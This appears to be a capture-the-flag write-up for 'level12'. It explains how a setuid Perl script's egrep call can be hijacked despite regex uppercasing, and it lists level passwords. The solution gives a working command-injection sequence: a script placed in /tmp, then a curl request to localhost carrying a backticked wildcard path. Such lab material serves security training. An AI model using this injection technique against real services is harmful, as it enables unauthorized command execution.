 # Solve Level12
pass : fa6v5ateaw21peobuub8ipe6s

## Description
- home
    - -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

### level12.pl
- egrep can execute shell cmd
  - we have to pass through some obfuscation (regex) to inject code
    - first regex pass all char from a-z to A-Z
    - the second remove everything after a space char (\s)
      - * because /tmp is lowercase
      - GETFLAG is uppercase because of regex
- y is useless

## Solution
```bash
echo "getflag > /tmp/newFile" > /tmp/GETFLAG
chmod 777 /tmp/GETFLAG
curl localhost:4646?x=\`/*/GETFLAG\`
cat /tmp/newFile #let's go
```

- flag12 : 
- level13 : g1qKMiRpXf53AWhDaU7FEkczr


## Resolve problem

